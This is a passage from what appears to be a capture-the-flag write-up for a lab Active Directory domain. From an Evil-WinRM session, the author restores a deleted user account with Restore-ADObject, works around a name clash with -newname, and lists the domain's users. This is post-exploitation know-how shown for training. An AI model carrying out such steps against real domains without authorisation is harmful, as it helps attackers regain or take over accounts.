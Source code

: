 Their logon is liza.kazanof.

#### Restore liza.kazanof

To restore that account, I’ll use `restore-adobject`:

```
*Evil-WinRM* PS C:\> restore-adobject -identity ebe15df5-e265-45ec-b7fc-359877217138
An attempt was made to add an object to the directory with a name that is already in use
At line:1 char:1
+ restore-adobject -identity ebe15df5-e265-45ec-b7fc-359877217138
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (CN=Liza Kazanof...eelancer,DC=htb:ADObject) [Restore-ADObject], ADException
    + FullyQualifiedErrorId : 0,Microsoft.ActiveDirectory.Management.Commands.RestoreADObject

```

It fails. The name is already in use (which is a bit odd). `-newname` will create the object with a new name:

```
*Evil-WinRM* PS C:\> restore-adobject -identity ebe15df5-e265-45ec-b7fc-359877217138 -newname liza.kazanof.0xdf

```

It works, and liza.kazanof is in the users again:

```
*Evil-WinRM* PS C:\> get-aduser -filter * | select SamAccountName

SamAccountName
--------------
Administrator
Guest
krbtgt
mikasaAckerman
sshd
...[snip]...
lkazanof
liza.kazanof
*Evil-WinRM* PS C:\Users\lorra199\Documents> get-aduser -filter 'SamAccountName -eq "liza.kazanof"'

DistinguishedName : CN=liza.kazanof.0xdf,CN=Users,DC=freelancer,DC=htb
Enabled           : True
GivenName         : Liza
Name              : liza.kazanof.0xdf
ObjectClass       : user
ObjectGUID        : ebe15df5-e265-45ec-b7fc-359877217138
SamAccountName    : liza.kazanof
SID               : S-1-5-21-3542429192-2036945976-3483670807-2101
Surname           : Kazanof
UserPrincipalName : liza.kazanof@freelancer.com

```
